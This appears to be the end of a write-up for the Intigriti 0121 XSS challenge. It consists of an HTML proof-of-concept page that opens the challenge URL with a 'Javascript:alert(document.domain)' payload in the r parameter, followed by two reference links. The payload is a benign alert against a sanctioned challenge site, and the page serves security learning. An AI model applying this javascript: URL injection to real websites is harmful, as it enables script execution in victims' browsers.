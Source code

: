 ```html
<!DOCTYPE html>
<html>
    <head>
        <title>Intigriti 0121 Poc</title>
        <script>
            const poc = 'Javascript:alert(document.domain)/%0aid=origin'
            const url = `https://javascript.challenge-0121.intigriti.io/?r=${poc}`

            const exploit = function (){
                window.open(url);
            }
        </script>
    </head>
    <body>
        <h1>Intigriti XSS Challenge 0121</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```

---
## Reference

[https://developer.mozilla.org/ko/docs/Web/API/URL/searchParams](https://developer.mozilla.org/ko/docs/Web/API/URL/searchParams)<br>
[https://stackoverflow.com/questions/55451493/what-is-window-origin](https://stackoverflow.com/questions/55451493/what-is-window-origin)

---

